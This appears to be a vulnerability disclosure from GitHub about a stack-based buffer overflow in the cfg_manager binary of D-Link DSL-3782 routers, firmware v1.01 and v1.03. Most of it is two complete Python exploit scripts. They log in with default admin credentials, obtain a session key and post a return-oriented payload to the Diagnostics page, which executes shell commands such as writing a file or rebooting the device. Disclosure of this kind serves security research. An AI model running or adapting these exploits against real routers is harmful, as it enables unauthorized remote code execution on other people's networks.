



Vendor of the products:　D-Link

Reported by: 　　　　　 [x.sunzh@gmail.com](mailto:x.sunzh@gmail.com)

Affected products:　　　DSL-3782 v1.01, DSL-3782 v1.03

# Buffer overflow

## Code in cfg_manager

Code bellow (in cfg_manager) performs the traceroute (or ping) test in the Diagnostic webpage.



The *getAttrValue* method at `.text: 0x474bA4` can lead to a stack-based buffer overflow.


### Code in getAttrValue

The dst parameter (a4) of strcpy corresponds to the `$a3` register in the above picture, which comes from the `$s1` register, and the `$s1` register stores an offset address in stack (at `.text: 474af0`).




## In v1.01

### exp

```python
import requests
import urllib
from pwn import *

context.binary = "../_DSL-3782_A1_EU_1.01_07282016.bin.extracted/squashfs-root/userfs/bin/cfg_manager"
context.endian = "big"
context.arch = "mips"

main_url = "http://192.168.1.1:80"

def login():
    s = requests.Session()
    s.verify = False
    headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36(KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36",
        }
    url = main_url + "/cgi-bin/Login.asp?User=admin&Pwd=admin&_=1640832458081"
    resp = s.get(url,headers=headers,timeout=10)
    print resp.text


def get_session_key():
    s = requests.Session()
    s.verify = False
    headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36(KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36",
        }
    url = main_url + "/cgi-bin/get/New_GUI/get_sessionKey.asp"
    resp = s.get(url,headers=headers,timeout=10)
    sessionKey = resp.text
    return sessionKey


def exp(sessionKey=None):
    libc_base = 0x2b50b000
    system_offset = 0x59bb0
    system_addr = libc_base + system_offset
    gadget_offset = 0x0001656C
    gadget_addr = libc_base + gadget_offset

    cmd = "echo yab. > /tmp/1"
    padding = "a" * 72
    s0 = p32(system_addr)
    s1 = "AAAA"
    s2 = "BBBB" 
    s3 = "CCCC"
    ra = p32(gadget_addr)
    padding2 = "A" * 16
    payload = padding + s0 + s1 + s2 + s3 + ra + padding2 + cmd

    s = requests.Session()
    s.verify = False
    headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36(KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36"
        }
    params = {
        "Type":"p", "sessionKey":urllib.unquote(sessionKey),
        "Addr":urllib.unquote(payload)
        }
    url = main_url + "/cgi-bin/New_GUI/Set/Diagnostics.asp"
    resp = s.post(url,data=params,headers=headers,timeout=10)
    print resp.text


if __name__ == '__main__':
    login()
    sessionKey = get_session_key()
    exp(sessionKey=sessionKey) 
```

### Attack effect



Since the command we executed in the exploit script (line 41) is `echo yab. > /tmp/1`, we can confirm that our attack was successful by printing the content in file /tmp/1.


## In v1.03

An authenticated attacker can still use the stack-based bof to complete remote code execution of single-word commands (such as reboot).

### exp

```python
import requests
import urllib
from pwn import *
import os
from time import sleep


context.binary = "../new/_DSL-3782_A1_EU_1.03_04042018.bin.extracted/squashfs-root/userfs/bin/cfg_manager"
context.endian = "big"
context.arch = "mips"

server = "192.168.1.1"
main_url = "http://192.168.1.1:80"


def get_session_key(a):
    s = requests.Session()
    s.verify = False
    headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36(KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36",
        "Cookie": "SESSIONID_AUTH=%s" % a
        }
    url = main_url + "/cgi-bin/get/New_GUI/get_sessionKey.asp"
    resp = s.get(url,headers=headers,timeout=10)
    sessionKey = resp.text
    print(sessionKey)
    return sessionKey


def exp(sessionKey=None,a=''):
    libc_base = input('libc_base:')
    system_offset = 0x59bb0
    system_addr = libc_base + system_offset
    gadget_offset = 0x0001656C
    gadget_addr = libc_base + gadget_offset

    cmd = "reboot"
    padding = "a" * 72
    s0 = p32(system_addr)
    s1 = "AAAA"
    s2 = "BBBB" 
    s3 = "CCCC"
    ra = p32(gadget_addr)
    padding2 = "A" * 16
    payload = padding + s0 + s1 + s2 + s3 + ra + padding2 + cmd

    s = requests.Session()
    s.verify = False
    headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36(KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36",
        "Cookie": "SESSIONID_AUTH=%s" % a
        }
    params = {
        "Type":"t", "sessionKey":urllib.unquote(sessionKey),
        "Addr":urllib.unquote(payload)
        }
    url = main_url + "/cgi-bin/New_GUI/Set/Diagnostics.asp"
    resp = s.post(url,data=params,headers=headers,timeout=10)
    print resp.text


if __name__ == '__main__':
    print '\n[*] Connection %r' % main_url
    a = input()
    print '[*] Getting session key'
    sessionKey = get_session_key(a)
    print '[*] Sending payload'
    exp(sessionKey=sessionKey, a=a) 
    sleep(1)
    print '[*] Rebooting the target!'
    sleep(2)
    print '[*] Done!'

```

### Attack effect


Since the command we executed in the exploit script (line 37) is `reboot` , you can see that the emulator (firmadyne) is rebooting.  
